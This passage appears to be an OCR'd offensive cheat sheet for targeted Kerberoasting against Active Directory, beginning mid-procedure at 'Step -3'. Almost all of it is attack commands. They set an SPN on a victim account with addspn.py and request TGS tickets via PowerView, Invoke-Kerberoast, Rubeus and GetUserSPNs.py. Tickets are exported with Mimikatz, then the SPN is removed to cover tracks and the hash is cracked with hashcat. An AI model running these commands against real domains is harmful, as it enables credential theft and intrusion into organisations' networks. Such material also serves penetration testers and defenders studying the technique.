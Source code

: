 
#Setting SPN Using addspn.py
python addspn.py steinsdc.local -u <USER_WITH_WRITE_PRIVS> --spn “DomainName/SomeUniqueName” --target TARGET_USERNAME


Step -3 

#Validate SPN Set to the username
Get-ADUser -Identity USER_Name -Properties ServicePrincipalName | Select ServicePrincipalName

Step -4 

#Requesting TGS Ticket using AD Module 
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosReceiverSecurityToken -ArgumentList 'DomainName/SomeUniqueName'

#Get TGS Ticket Using PowerView
Request-SPNTicket
Get-Domainuser Target_Username | Get-DomainSPNTicket

#Get TGS Ticket Using Invoke-Kerberoast
Import-Module .\Invoke-Kerberoast.ps1
#Generate the hash
Invoke-Kerberoast -OutputFormat Hashcat 

#Get TGS Ticket Using Rubeus
.\Rubeus.exe kerberoast /domain:steins.local /user:username/format:hashcat /outfile:hash.txt

#Get TGS Ticket and the hash using GetUserSPNs.py
GetUserSPNs.py domain/username -request

#Request a TGS using Invoke-Kerberoast.ps1
Invoke-Kerberoast -Identity Traget_username


Step -5 

#check the TGS Ticket for DomainName/SomeUniqueName
klist	

#Export the tickets
Invoke-Mimikatz -Command '"kerberos::list /export"'


Cleanup:

Set-ADUser -Identity USER_NAME -ServicePrincipalNames @{Remove='DomainName/SomeUniqueName'} -Server steins.local

python addspn.py steinsdc.local -u <USER_WITH_WRITE_PRIVS> --spn “DomainName/SomeUniqueName” --target TARGET_USERNAME --remove

Set-DomainObject -Identity USER_NAME -Clear serviceprincipalname

Set-ADObject -SamAccountName <TARGET> -PropertyName serviceprincipalname -ClearValue


Step -6 

#Crack the TGS Ticket
hashcat -m 13100 -a 0 ticket.hashcat /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/T0XlC-insert_space_and_special_0_F.rule  --force
